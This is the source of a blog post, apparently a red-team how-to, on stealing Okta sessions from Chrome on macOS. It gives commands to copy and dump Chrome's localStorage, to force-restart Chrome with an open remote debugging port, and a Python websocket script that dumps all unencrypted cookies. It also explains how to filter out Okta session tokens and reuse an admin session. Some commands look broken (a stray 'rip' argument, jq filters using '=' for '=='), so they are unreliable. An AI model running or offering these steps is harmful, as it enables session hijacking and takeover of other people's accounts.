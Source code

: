 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`[^1].

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain [^2] [^3]. Unencrypted cookies can still be fetched by attaching a remote chrome debugger [^4] [^5]. This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`[^6].

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | JWT Auth Bearer |
| Okta User | idx | cookie | Reveal more than bearer token |

### References:
[^1]: https://github.com/rdreher/chromeStorageDump
[^2]: https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
[^3]: https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
[^4]: https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
[^5]: https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e
[^6]: https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/